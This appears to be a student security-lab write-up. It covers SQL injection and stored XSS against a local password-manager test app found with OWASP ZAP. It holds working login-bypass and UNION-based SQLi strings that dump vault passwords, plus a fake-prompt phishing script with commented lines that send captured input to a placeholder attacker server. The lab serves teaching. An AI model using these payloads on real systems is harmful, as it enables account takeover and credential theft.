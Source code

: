 # W7 | Injection & XSS Testing

## Introduction  
Web applications live and die by how they handle user input—and in this lab, you’ll discover what happens when that input isn’t properly validated.

We’ll test two of the most common web vulnerabilities:
- **SQL Injection** which targets the database layer by manipulating queries
- **Cross-Site Scripting (XSS)** which injects malicious scripts into web pages

Using **OWASP ZAP** we’ll scan the app to find vulnerabilities then manually craft input to exploit them—altering data, injecting scripts, demonstrating risks of insecure input handling.

We’ll:
- Use **ZAP** to identify injection vulnerabilities
- Perform real SQLi and XSS attacks on a test system
- Learn how to prevent them through validation and sanitization

By the end, we’ll understand why **input handling** is one of the most critical aspects of web security and how to defend against these attacks in the wild.

## Steps
1. Download ZAP, enable configurations in computer settings to open. 
2. Select “Automated Scan”, enter password manager url https://localhost to begin attack.
3. In the top menu set view to “Reponses” and “Alerts” and let system run for 10 minutes.
4. Once a high alert (red flag) “SQL Injection” vulnerability is found, study the report to see which type of SQL injection can be used for the username in the login page.
**Log in as Admin without using their password**
5. Use the query ' and 0 in (select sleep(15) ) – and random password to bypass the login page.
6. Explore pages, and logout.
7. Login as the Admin without a password using a similar approach. Admin’ --#
8. Logout, login as “Username” with proper credentials.

**Find a way to retrieve all VAULT passwords from database**
9. Navigate to Vaults page.
10. In the search field input the following injection: ‘UNION SELECT username, password FROM vault_passwords-- -
11. Press enter to see all vault passwords load.

**Create false pop-up asking victim for confidential info whenever they access a vault**
12. Reload page to clear the search field.
13. Navigate to a vault, click on “Edit password”.
14. In the “Notes” field paste the JS payload that will create a fake popup asking for sensitive information.
<script>
    var phishing_prompt = prompt("Security Alert: For your protection, please re-enter your VAULT password.");
    if (phishing_prompt) {
        // In a real scenario, you would send 'phishing_prompt' to an attacker-controlled server.
        // For demonstration, we'll just show an alert with the entered data.
        alert("Captured data (for demo): " + phishing_prompt + "\n(In a real attack, this would be sent to the attacker.)");

        // To send it to an attacker server (similar to Task 2):
        // var attacker_server_url = 'https://YOUR_ATTACKER_SERVER_URL/log_phish'; 
        // new Image().src = attacker_server_url + '?phished_data=' + encodeURIComponent(phishing_prompt);
    }
</script>
15. Click “Update Password” to save and have a partner navigate to the vault to edit details. 
16. Tne JS embedded in the “Notes” field will popup automatically, asking for their vault password. 
17. If they enter information an alert box will show the captured data.
<img width="80%" alt="image" src="https://github.com/user-attachments/assets/2b061cdf-d198-415e-a295-abf95a67a42b" />

*Retrieving all Vault passwords with SQLi*

<img width="80%" alt="image" src="https://github.com/user-attachments/assets/245ba557-bca0-4a70-a03c-d3c54cc1cb49" />

*Malicious payload and popup asking user for crential information*
## Reflection


<img width="50%" alt="image" src="https://github.com/user-attachments/assets/3f0ebd2c-271e-4eb8-b2e7-468f639a6d06" />

